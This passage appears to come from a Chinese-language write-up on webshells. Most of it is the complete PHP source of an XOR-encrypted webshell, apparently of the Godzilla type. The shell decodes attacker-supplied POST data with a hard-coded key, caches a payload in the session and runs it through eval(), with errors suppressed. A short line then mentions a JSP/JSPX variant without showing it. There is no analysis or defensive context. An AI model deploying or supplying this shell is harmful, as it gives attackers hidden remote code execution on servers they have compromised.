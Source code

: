 PHP_XOR_RAW

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}

```

生成 jsp/jspx 的 webshell：（代码太长就不再列举）

![image-20230815144327087](img/WebShell/image-20230815144327087.png)
